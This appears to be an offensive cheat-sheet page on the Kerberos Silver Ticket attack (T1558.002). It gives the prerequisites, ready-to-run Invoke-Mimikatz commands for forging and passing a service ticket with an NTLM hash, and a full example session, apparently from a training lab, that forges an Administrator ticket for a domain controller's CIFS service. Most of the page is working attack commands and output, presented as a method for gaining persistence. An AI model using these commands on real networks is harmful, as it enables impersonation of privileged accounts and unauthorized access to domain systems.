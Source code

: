 
# T1558.002 - Silver Ticket
### Attacks
* Mimikatz Silver Ticket (Invoke-Mimikatz, PowerShell)
	* Overview

#### Notes

* With this method you will have a relatively short amount of persistence (usually 30 days, until the service accounts password changes auto-magically)
* For a list of SPNs and a bit about what they do (needed for silver ticket service picking) see: https://adsecurity.org/?page_id=183
* Sometimes creating the TGS is a bit wonky. If it doesn't work at first, try with(out) using a FQDN.

#### Prerequisites

* A service you want to usee
* A credential (hash, key) for an account to use when creating the TGS
    - You will need the appropriate credential for what the service needs/is running as
* Domain SID
    - `Get-DomainSID` (PowerView)

* Creating and using ticket
    - `Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domain-SID> /target:<computer-name|FQDN> /service:<SPN> /rc4:<ntlm-hash> /user:<user-account> /ptt"'`
* Using saved ticket
    - `Invoke-Mimikatz -Command '"kerberos::ptt <ticket>"'`
* Confirm a ticket is loaded
    - `klist`

#### Example

```
PS C:\AD\Tools\tickets> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-187
4506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:cifs /rc4:4a06e5988918bc0a64747d088182
3fac /user:Administrator /ptt"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511
 /target:dcorp-dc.dollarcorp.moneycorp.local /service:cifs /rc4:4a06e5988918bc0a64747d0881823fac /user:Administrator /pt
t
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4a06e5988918bc0a64747d0881823fac - rc4_hmac_nt
Service   : cifs
Target    : dcorp-dc.dollarcorp.moneycorp.local
Lifetime  : 1/25/2021 6:25:53 AM ; 1/23/2031 6:25:53 AM ; 1/23/2031 6:25:53 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
```